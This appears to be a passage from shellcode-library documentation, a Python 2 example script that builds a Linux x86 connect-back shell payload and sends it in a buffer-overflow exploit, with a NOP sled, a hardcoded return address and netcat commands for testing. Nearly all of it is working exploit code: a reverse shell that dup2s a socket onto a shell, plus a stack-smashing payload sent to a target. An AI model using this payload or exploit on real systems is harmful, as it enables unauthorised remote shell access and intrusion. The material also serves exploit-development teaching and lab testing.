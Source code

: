 def connectShellEgg(connect_addr, connect_port):
#   egg = InlineEgg(FreeBSDx86Syscall)
#   egg = InlineEgg(OpenBSDx86Syscall)
   egg = InlineEgg(Linuxx86Syscall)

   # connect to other side
   sock = egg.socket(socket.AF_INET,socket.SOCK_STREAM)
   sock = egg.save(sock)
   egg.connect(sock,(connect_addr, connect_port))

   # dup an exec
   egg.dup2(sock, 0)
   egg.dup2(sock, 1)
   egg.dup2(sock, 2)
   egg.execve('/bin/sh',('bash','-i'))
   print "Egg len: %d" % len(egg)
   return egg

def main():
   if len(sys.argv) < 3:
      raise Exception, "Usage: %s <target ip> <target port>"

   # connect to target
   sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   sock.connect((sys.argv[1], int(sys.argv[2])))

   # create egg
   egg = connectShellEgg('127.0.0.1',3334)

   # exploit

   retAddr = struct.pack('<L',0xbffffc24L)
   toSend  = "\x90"*(1024-len(egg))
   toSend += egg.getCode()
   toSend += retAddr*20

   sock.send(toSend)

main()
---------------------------------------------------------

   Test it using three shells now:

gera@violent[1]: nc -v -l -p 3333|strace ./tester      # wait for the sent egg and pipe it to tester (strace helps)
gera@violent[2]: nc -v -l -p 3334                      # the egg will connect back to you on port 3334
gera@violent[3]: ./example3.py 127.0.0.1 3333          # "exploit" tester listening on port 3333
